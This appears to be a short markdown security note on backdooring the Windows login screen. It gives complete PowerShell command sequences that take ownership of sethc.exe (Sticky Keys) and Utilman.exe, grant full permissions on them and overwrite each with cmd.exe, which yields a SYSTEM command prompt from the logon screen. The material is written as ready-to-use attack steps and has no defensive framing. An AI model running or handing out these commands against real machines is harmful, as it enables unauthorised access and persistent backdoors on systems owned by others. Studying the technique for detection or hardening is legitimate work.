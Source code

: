 
This is helpful if we have physical access to the machine. We can launch commandline from the logon screen and run commands

## Sticky Keys

- shortcut to activate Sticky Keys is by pressing `SHIFT` 5 times
- After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`
- A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`
- To overwrite `sethc.exe`, we first need to take ownership of the file and grant our current user permission to modify it
```powershell
# Take ownership of the executable
takeown /f c:\Windows\System32\sethc.exe

# Update permission and gain full access 
icacls C:\Windows\System32\sethc.exe /grant Administrator:F

# Overwrite the binary with commandline executable
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```


## Utilman

- Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:
- When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges.
- If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.
```powershell
takeown /f c:\Windows\System32\utilman.exe

icacls C:\Windows\System32\utilman.exe /grant Administrator:F

copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```
